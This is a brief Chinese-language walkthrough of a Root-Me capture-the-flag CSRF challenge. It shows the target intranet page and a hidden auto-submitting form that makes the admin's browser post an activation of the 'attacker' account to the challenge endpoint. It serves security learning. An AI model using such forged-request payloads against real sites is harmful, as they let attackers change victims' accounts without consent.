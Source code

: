看到这样一段代码

```html
<html>
<head>
<title>Intranet</title>
</head>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
<a href="?action=contact">Contact</a> | <a href="?action=profile">Profile</a> | <a href="?action=private">Private</a> | <a href="?action=logout">Logout</a><hr>
<br><br><div>
		<fieldset><legend>Update Profile</legend>
		<form action="?action=profile" method="post" enctype="multipart/form-data">
		<div class="form-group">
		<label>Username:</label>
		<input type="text" name="username" value="attacker">
		</div>
		<br>		
		<div class="form-group">
		<label>Status:</label>
		<input type="checkbox" name="status" disabled >
		</div>
		<br>	
		<button type="submit">Submit</button>
		</form></fieldset>
		</div><div>You're not an admin!</div>
</body>
</html>
```

写一段，主要思路是让 admin 打开收件箱之后到 http://challenge01.root-me.org/web-client/ch22/?action=profile 这个界面，然后自动执行对攻击者账号的 validation 的 POST 界面。

```html
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data">
    <input type="hidden" name="username" value="attacker"> <!-- 激活账号，根据实际修改 -->
    <input type="hidden" name="status" value="on"> <!-- 激活动作 -->
</form>
<script>document.csrf.submit()</script>
```

参考：

https://www.douban.com/note/714091211/

https://exp-blog.com/safe/ctf/rootme/web-client/csrf-0-protection/



# App - Script

## Powershell - Command injection
